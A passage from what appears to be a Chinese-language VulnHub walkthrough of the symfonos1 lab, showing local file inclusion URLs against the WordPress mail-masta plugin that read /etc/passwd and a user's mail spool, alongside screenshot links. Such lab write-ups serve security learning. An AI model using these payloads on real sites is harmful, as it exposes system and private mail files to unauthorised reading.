 `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos1/12.png)

可以,下面尝试从其他文件得到一些信息

`http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios`

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos1/13.png)
